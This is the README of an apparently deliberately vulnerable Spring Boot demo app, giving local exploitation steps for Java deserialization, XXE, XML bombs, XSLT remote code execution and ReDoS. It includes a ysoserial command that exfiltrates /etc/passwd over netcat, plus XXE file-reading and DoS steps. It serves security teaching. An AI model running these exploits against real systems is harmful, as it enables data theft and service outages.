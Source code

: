 # Spring Boot - Backend vulnerabilities examples

## Movies with exploitation of:
### Unsafe Java object deserialization
https://drive.google.com/open?id=1YmJzBR355nG0v9avQdMEbOX7ddq99-N_
### XML External Entity (XXE)
https://drive.google.com/open?id=1j6UKJ1fp96cjEh2Cc18N9stsNgGcj2Pg
### XML bombs
https://drive.google.com/open?id=1FVg0YzWJyiSPPx3SPB7FBa3iYFuGTgTe
### RCE with XSLT
https://drive.google.com/open?id=1rBPmZQQ5y13uCjRMvdu_f0Zi8eKJDuuo
### ReDoS
https://drive.google.com/open?id=1_gjB1LlI_IvASfAKtE-eLKBGFIT1Oh_S

## Run & exploit

### Payloads
Payloads for exploitation can be found in payload folder of the project and its subdirectories.

### Unsafe Java object deserialization
- Generate payload with ysoserial toolkit (https://github.com/frohoff/ysoserial)
`java -jar ysoserial.jar CommonsCollections5 'bash -c {cat,/etc/passwd}|{nc,127.0.0.1,1234}' > serialization_issue.dat`
- Run application
`mvn spring-boot:run`
- Open another terminal and run nc in listen mode:
`nc -l -p 1234`
- Open in browser 'http://localhost:8080/upload-attendee'
- Upload 'serialization_issue.dat' prepared with ysoserial toolkit
- Check terminal with running nc in listen mode to check see content of your /etc/passwd sent by application.

### XML External Entity (XXE)
- Run application
`mvn spring-boot:run`
- Run postman, import collection 'XXE.postman_collection.json' and environment 'local - 8080.postman_environment.json'
- Send request 'Attendee upload xml - XEE' from imported collection
- Check response of server to read /etc/passwd content

### XML bombs
- Run application with additional parameters
`mvn spring-boot:run -Djdk.xml.entityExpansionLimit=0 -Djdk.xml.entityReplacementLimit=0 -Djdk.xml.totalEntitySizeLimit=0`
Note that you turn off upper boundary limits for XML parser. Additional `-Xmx1024m` parameter could be added in case memory would be consumed too quickly.
- Run postman, import collection 'XXE.postman_collection.json' and environment 'local - 8080.postman_environment.json'
- Send request 'Attendee upload xml - XML Bomb' from imported collection
- Monitor usage of CPU and Memory for java process

### RCE with XSLT
- Run application
`mvn spring-boot:run`
- Open another terminal and run nc in listen mode:
`nc -l -p 1234`
- Open in browser 'http://localhost:8080/upload-attendee-xslt'
- Copy payload available in file 'xml_payload_attendee.txt' to field with 'XML' label
- Copy payload available in file 'xslt_payload_attendee.txt' to field with 'XSLT' label
- Press 'Transform button'
- Check terminal with running nc in listen mode to check see content of your /etc/passwd sent by application.

### ReDoS
- Run application
`mvn spring-boot:run`
- Open in browser 'http://localhost:8080/attendeemng'
- Fill in fields 'First Name', 'Last Name' with arbitrary values
- Fill in 'Email' field with multiple 'a' characters eg. 'aaaaaaaaaaaaaaaaaaaaaaaaaa' and press 'Add Attendee'
- Retry addition of attendee with email that has additional 'a' characters until validation doesn't finish in "reasonable" time amount.
